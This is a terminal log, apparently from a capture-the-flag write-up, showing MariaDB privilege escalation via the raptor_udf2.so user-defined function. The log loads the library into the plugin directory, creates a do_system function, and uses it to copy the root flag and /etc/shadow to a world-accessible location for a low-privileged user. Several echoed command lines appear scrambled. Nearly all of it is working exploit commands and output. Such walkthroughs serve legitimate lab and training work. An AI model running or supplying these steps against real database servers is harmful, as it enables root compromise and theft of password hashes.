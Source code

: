 ```bash
+-----------------+---------------------------------------------+
| plugin_dir      | /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ |
| plugin_maturity | gamma                                       |
+-----------------+---------------------------------------------+
2 rows in set (0.001 sec)

MariaDB [mysql]> create table foo(line blob);
create table foo(line blob);
Query OK, 0 rows affected (0.006 sec)

MariaDB [mysql]> insert into foo values(load_file('/dev/shm/raptor_udf2.so'));
insert into foo values(load_file('/dev/shm/raptor_udf2.so'));
Query OK, 1 row affected (0.003 sec)

MariaDB [mysql]> select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';
adb19/plugin/raptor_udf2.so';le '/usr/lib/x86_64-linux-gnu/mari 
Query OK, 1 row affected (0.001 sec)

MariaDB [mysql]> create function do_system returns integer soname 'raptor_udf2.so';
o';ate function do_system returns integer soname 'raptor_udf2.s 
Query OK, 0 rows affected (0.001 sec)

MariaDB [mysql]> select * from mysql.func;
select * from mysql.func;
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+

MariaDB [mysql]> select do_system('cat /root/root.txt > /dev/shm/flag.txt; chown svc:svc /dev/shm/flag.txt');
 svc:svc /dev/shm/flag.txt');oot.txt > /dev/shm/flag.txt; chown 
+--------------------------------------------------------------------------------------+
| do_system('cat /root/root.txt > /dev/shm/flag.txt; chown svc:svc /dev/shm/flag.txt') |
+--------------------------------------------------------------------------------------+
|                                                                                    0 |
+--------------------------------------------------------------------------------------+
1 row in set (0.003 sec)

MariaDB [mysql]> select do_system('cat /etc/shadow > /dev/shm/shadow; chown svc:svc /dev/shm/shadow');
svc /dev/shm/shadow');/etc/shadow > /dev/shm/shadow; chown svc: 
+-------------------------------------------------------------------------------+
| do_system('cat /etc/shadow > /dev/shm/shadow; chown svc:svc /dev/shm/shadow') |
+-------------------------------------------------------------------------------+
|                                                                             0 |
+-------------------------------------------------------------------------------+
1 row in set (0.004 sec)
```

